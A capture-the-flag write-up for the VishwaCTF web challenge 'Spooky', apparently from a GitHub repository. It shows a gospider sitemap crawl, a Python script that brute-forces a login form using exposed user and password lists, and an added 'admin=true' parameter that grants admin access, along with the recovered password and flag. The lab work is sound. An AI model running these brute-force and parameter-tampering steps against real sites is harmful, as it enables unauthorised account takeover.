 # **Writeup - VishwaCTF**

* Category **WEB** <!-- challenge category -->
* Name **Spooky** <!-- challenge name -->
* Difficulty **Medium**

## Description
The challenge show us a site, and the description report that a user forgot his login credentials. The scope of the challenge was to recover the forgotten credentials.

## **Solution**
Firstly looking at the web interface there weren't clues about what to do. So to retrieve more information there were two possibilities:
* Use dirb to see if there are some useful folders to retrieve information.
* Use gospider in order to try to retrieve sitemap.xml or robots.txt_
So trying the second way by executing the command:
```shell
gospider -s https://ch39763117927.ch.eng.run/ --sitemap
```
from the sitemap.xml file we discover there are two interesting files inside creds folder, namely pass.txt and user.txt, containing list of user and password of the site. At this point in order to login we bruteforce for every user in users.txt all passwords in pass.txt. It is possible to do this from script using following code
```Python
import requests  
  
url = "https://ch39763117934.ch.eng.run/"  
user_res = requests.get(f"{url}/creds/users.txt")  
users = user_res.text.strip(' \n').split('\n')  
password_res = requests.get(f"{url}/creds/pass.txt")  
passwords = password_res.text.strip(' \n').split('\n')  
correct = tuple()  
  
for user in users:  
	for password in passwords:  
		res = requests.post(f"{url}/login.php", data={"user": user, "pass": password})  
		# log print  
		print(user, password)  
		if "Incorrect" not in res.text:  
			print(res.text)  
			correct = (user, password)  
			break  
	if "Incorrect" not in res.text:  
		break
```
At this point we are logged as user shrekop, with password "VmU5gnXKYN2vLp48", but there's no flag on the page. After thinking about it, the first idea was insert an additional param ```admin='true'``` in the form in order maybe to become admin with the code lines:
```Python
res = requests.post("https://ch39763117927.ch.eng.run/login.php", data={"user": correct[0], "pass": correct[1], 'admin': 'true'})  
print(res.text)
```
This worked as the response was:
```html
<b>Logged in as </b> shrekop (admin)<script>alert('Congratulations. You got the flag!');</script><script>alert('VishwaCTF{h1dd3n_P@raMs}');</script>
```
